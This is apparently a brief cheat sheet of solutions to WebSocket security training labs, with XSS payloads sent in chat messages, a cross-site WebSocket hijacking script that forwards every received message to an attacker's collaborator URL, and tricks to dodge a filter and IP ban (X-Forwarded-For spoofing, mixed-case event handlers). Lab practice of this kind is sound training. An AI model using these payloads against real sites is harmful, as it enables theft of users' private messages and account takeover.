 
----
----

# Web Socket

**Manipulating WebSocket messages to exploit vulnerabilities**

    alert()
    Live chat
1. intercept webSockets message
`<img src=1 onerror=alert(1)>`
`<img src=1 onerror='alert(1)'>`

---

**Cross-site WebSocket hijacking**

    CSWHS
    Live chat
    exploit server
```html
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
---

**Manipulating the WebSocket handshake to exploit vulnerabilities**

    alert()
    Live chat
    XSS, X-Forwarded-For
    "error":"Attack detected: Event handler"
1. send a basic XSS e.g. `img src=1 onerror='alert(1)'>`
2. try reconnect
3. add `X-Forwarded-For: 1.1.1.1` to a header # to bypass IP-based restrictions
4. send a message ```<img src=1 oNeRrOr=alert`1`>```

---
----
----
Goodluck, my G

[def]: #client-side-summary